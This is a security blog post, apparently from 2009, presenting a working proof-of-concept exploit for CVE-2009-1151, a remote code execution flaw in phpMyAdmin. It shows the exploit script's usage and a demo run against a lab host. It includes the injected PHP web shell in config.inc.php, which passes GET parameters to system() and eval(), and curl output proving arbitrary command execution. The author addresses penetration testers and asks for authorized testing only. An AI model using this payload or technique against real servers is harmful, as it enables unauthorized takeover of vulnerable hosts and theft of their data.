 ```yaml
---
title: CVE-2009-1151 phpMyAdmin Remote Code Execution Proof of Concept
author: adrian-pastor
date: Tue, 09 Jun 2009 19:03:13 GMT
template: this/views/post.jade
category: fucked
---
```


I couldn't find any public PoC/exploit for this [phpMyAdmin](http://www.phpmyadmin.net/home_page/index.php) vulnerability, despite it being a serious bug affecting a popular open-source project. I think this vulnerability is a nice reminder that it's still possible to perform remote command execution these days without relying on SQL injection (i.e.: `xp_cmdshell`) or a memory corruption bug (i.e.: heap overflow).

> All the documentation you need is in the script comments. I recommend you to go through it, before you actually run the script.

After reading the public [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) and patched code, and playing around for a while, I managed to have a working PoC bash script. The script will allow you to remotely run shell commands and PHP code against vulnerable targets. Although in principle the vulnerability sounds quite simple, it actually took me a while to go from [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) to working attack code.

I'm providing the script with the hope that it will help pentesters and security researchers. Please only test the script against your own systems, or systems you have been given permission to pentest! Don't be evil, it's not worth it.

## Demo

```bash
$ ./phpMyAdminRCE.sh
usage: ./phpMyAdminRCE.sh <phpMyAdmin_base_URL>
i.e.: ./phpMyAdminRCE.sh http://target.tld/phpMyAdmin/
```

```bash
$ ./phpMyAdminRCE.sh http://172.16.211.10/phpMyAdmin-3.0.1.1/
[+] checking if phpMyAdmin exists on URL provided ...
[+] phpMyAdmin cookie and form token received successfully. Good!
[+] attempting to inject phpinfo() ...
[+] success! phpinfo() injected successfully! output saved on /tmp/phpMyAdminRCE.sh.9217.phpinfo.flag.html
[+] you *should* now be able to remotely run shell commands and PHP code using your browser. i.e.:
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?p=phpinfo();
    please send any feedback/improvements for this script to unknown.pentester<AT_sign_goes_here>gmail.com
```

```bash
$ curl "http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/"
total 96
drwxr-xr-x   2 root   root  4096 Mar 11 10:12 bin
drwxr-xr-x   3 root   root  4096 May  6 10:01 boot
lrwxrwxrwx   1 root   root    11 Oct 12  2008 cdrom -> media/cdrom
drwxr-xr-x  15 root   root 14300 Jun  5 09:02 dev
drwxr-xr-x 147 root   root 12288 Jun  5 09:02 etc
drwxr-xr-x   3 root   root  4096 Oct 18  2008 home
drwxr-xr-x   2 root   root  4096 Jul  2  2008 initrd
_[partial output removed for brevity reasons]_
```

Contents of `/config/config.inc.php` after our evil code has been successfully injected:

```php
<?php
/*
 * Generated configuration file
 * Generated by: phpMyAdmin 3.0.1.1 setup script by Michal ÄŒihaÅ™ <michal@cihar.com>
 * Version: $Id: setup.php 11423 2008-07-24 17:26:05Z lem9 $
 * Date: Tue, 09 Jun 2009 14:13:34 GMT
 */

/* Servers configuration */
$i = 0;

/* Server  (config:root) [1] */
$i++;
$cfg['Servers'][$i]['host']=''; if($_GET['c']){echo
'';system($_GET['c']);echo '';}if($_GET['p']){echo
'';eval($_GET['p']);echo '';};//'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';

/* End of servers configuration */

?>
```

## Thanks

I'd like to thank [Greg Ose](http://labs.neohapsis.com/2009/04/06/about-cve-2009-1151/) for discovering such a cool vuln and doing a nice writeup about the technical details! Also big thanks to [str0ke](http://www.milw0rm.com/) for testing this PoC script and providing such useful feedback!
